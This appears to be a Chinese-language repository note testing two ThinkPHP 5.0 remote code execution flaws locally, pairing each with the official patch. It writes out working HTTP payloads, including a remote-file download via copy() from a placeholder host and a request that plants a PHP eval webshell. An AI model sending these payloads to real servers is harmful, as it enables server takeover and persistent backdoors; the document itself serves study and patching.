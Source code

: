 # ThinkPHP5.0 漏洞测试

> 自从ThinkPHP发布漏洞补丁以来，服务器不知道多少次受到了批量扫描漏洞来抓取肉鸡的请求
> 虽然官方早已发布补丁，还是想试一下TP漏洞，测试两个漏洞

## 一、全版本执行漏洞

```xml
<!-- GET -->
http://127.0.0.1/ThinkPHP/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
由于对控制器名没有明确的检测，在没有开启强制路由的情况下，直接就可以执行phpinfo()，如果服务器未限制shell等函数的执行，便可以直接执行shell提权

![](screenshots/2023-04-14-20-50-36.png)

详细的漏洞执行过程可以参考 [漏洞执行过程](https://www.cnblogs.com/st404/p/10245844.html)

##### 官方补丁
加入正则表达式来限制控制器名
```php
/* /thinkphp/library/think/App.php 555行 加入 */
if (!preg_match('/^[A-Za-z](\w)*$/', $controller)) {
     throw new HttpException(404, 'controller not exists:' . $controller);
}
```



## 二、_method漏洞

```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter[]=system&method=GET&get[]=dir
```
_触发条件_

```php
//Config.php
'var_method'             => '_method'
```

利用`$_POST['_method']`变量来传递真实的请求方法，当`$_POST['_method']=__construct`时，Request类的method方法便会将该类的变量进行覆盖，利用该方式将filter变量覆盖为system等函数名，当内部进行参数过滤时便会进行执行任意命令

![](screenshots/2023-04-14-20-50-45.png)

基于此可以直接上传PHP文件 test.php
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&fileDown=copy("http://xxx/1.txt","test.php")
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=assert&method=get&server[REQUEST_METHOD]=fileDown
```
生成一句话木马
```xml
<!-- POST -->
http://127.0.0.1/ThinkPHP/index.php?s=captcha&T=echo+^<?php+phpinfo();eval($_POST[cmd]);?^>+>>info.php
<!-- Headers -->
Content-Type:application/x-www-form-urlencoded
<!-- Body -->
_method=__construct&filter=system&method=get&server[REQUEST_METHOD]=123
```

可以在config.php将_method设置为其他字符，或者升级TP

##### 官方补丁
官方补丁中限制了_method可疑设置的请求方法，并在处理_method之后将其unset，无法再利用__construct进行变量覆盖

```php
/* thinkphp/library/think/Request.php */
 public function method($method = false)
    {
        if (true === $method) {
            // 获取原始请求类型
            return IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
        } elseif (!$this->method) {
            if (isset($_POST[Config::get('var_method')])) {
                $method = strtoupper($_POST[Config::get('var_method')]);
                if (in_array($method, ['GET', 'POST', 'DELETE', 'PUT', 'PATCH'])) {
                    $this->method = $method;
                    $this->{$this->method}($_POST);
                } else {
                    $this->method = 'POST';
                }
                unset($_POST[Config::get('var_method')]); //unset
            } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
                $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
            } else {
                $this->method = IS_CLI ? 'GET' : (isset($this->server['REQUEST_METHOD']) ? $this->server['REQUEST_METHOD'] : $_SERVER['REQUEST_METHOD']);
            }
        }
        return $this->method;
    }
```

> 参考文章：
> https://www.cnblogs.com/st404/p/10245844.html
> https://mrxn.net/Infiltration/618.html
> https://www.cnblogs.com/nul1/p/11863574.html
> https://www.vulnbug.com/amp/thkphp5x-code-execution-vulnerabilities-and-bypass.html
> https://www.freebuf.com/vuls/194127.html
